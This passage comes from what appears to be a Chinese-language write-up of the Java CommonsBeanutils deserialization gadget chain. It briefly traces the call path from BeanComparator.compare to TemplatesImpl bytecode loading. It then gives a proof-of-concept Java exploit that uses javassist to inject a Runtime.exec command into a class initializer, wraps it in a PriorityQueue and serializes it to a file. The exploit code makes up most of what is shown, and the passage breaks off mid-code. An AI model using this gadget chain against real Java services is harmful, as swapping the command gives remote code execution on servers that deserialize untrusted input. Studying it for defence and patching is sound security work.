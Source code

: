![image-20220307225910092](images/9.png)

这里调用了compare方法，跟进

![image-20220307225933400](images/10.png)

通过这里来触发TemplatesImpl的getOutputProperties，中间的流程就不做具体分析了

![image-20220307230035451](images/11.png)

跟进newTransformer后就是加载字节码的操作了

## 漏洞复现

POC

```
package CB;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Unser {
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates,"_class",null);

        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue queue = new PriorityQueue (2);
        queue.add(1);
        queue.add(1);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,beanComparator);

        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("result.ser"));
        out.writeObject(queue);
```